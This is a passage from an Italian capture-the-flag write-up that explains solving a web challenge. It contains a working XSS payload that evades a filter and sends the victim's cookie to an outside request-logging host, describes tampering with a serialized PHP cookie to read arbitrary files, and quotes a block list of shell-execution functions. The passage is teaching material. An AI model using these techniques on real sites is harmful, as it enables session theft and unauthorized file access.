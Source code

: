 Il payload che ci ha permesso di ottenere la sessione dell'amministratore è il seguente:

```html
<scalertript>document.write("<img src=http://requestb.in/xxxxxxx?"+document.cookie+">")</scalertript>
```

Abbiamo utilizzato `scalertript` come tag perché il server filtrava alcune parole chiave, tra cui `alert`. Annidando la stringa in questo modo abbiamo fatto sì che il tag finale risultasse `<script>`.

Il risultato/flag era: `PHPSESSID=7fa26c8192a47a49b9530be18e1310e5`

---
A questo punto abbiamo capito che dovevamo andare oltre e compromettere il webserver tramite una code execution. Dopo aver ottenuto accesso all'area amministrativa del sito, abbiamo notato che andando alla pagina `settings.php` veniva impostato un cookie `editor` che conteneva il base64 di un oggetto PHP serializzato:

```json
O:11:"StyleEditor":3:{s:8:"filepath";s:15:"./css/asset.css";s:8:"fullpath";s:26:"/var/www/CTF/css/asset.css";s:7:"auditor";O:13:"SecurityCheck":2:{s:7:"attacks";a:2:{i:0;s:9:"([.]+\/)/";i:1;s:8:"(\x00)$/";}s:7:"replace";s:2:"./";}}
```

Cambiando i valori di `fullpath` e/o `filepath` era possibile accedere a qualsiasi file su disco. Abbiamo ottenuto il sorgente di [settings.php](https://github.com/jbzteam/CTF/blob/master/HiB17_SpringEdition/settings.php) che ci ha permesso di recuperare facilmente la flag `Double rainbow`.

Il file `settings.php` includeva [editor.php](https://github.com/jbzteam/CTF/blob/master/HiB17_SpringEdition/editor.php) che conteneva i dettagli di come veniva utilizzato l'oggetto `StyleEditor`:

```php
<?php
Class StyleEditor{
    public $filepath;
    public $fullpath;
    public $auditor;
    
    function __construct($fp){
        $this->auditor  = new SecurityCheck;
        $this->filepath = $fp;
        $this->fullpath = $this->get_path();
    }

    [...]    
    
    function __wakeup(){
      $badwords = array(
                     "eval",
                     "passthru",
                     "system","
                     shell_exec",
                     "popen",
                     "preg_match",
                     "preg_replace",
                     "dl",
                     "fwrite",
                     "file_put_contents",
                     "exec",
                     "fputs",
                     "`",
                     "require",
                     "include",
                     "include_once",
                     "require_once"
               );
        foreach ($this->auditor->attacks as $attack) {
```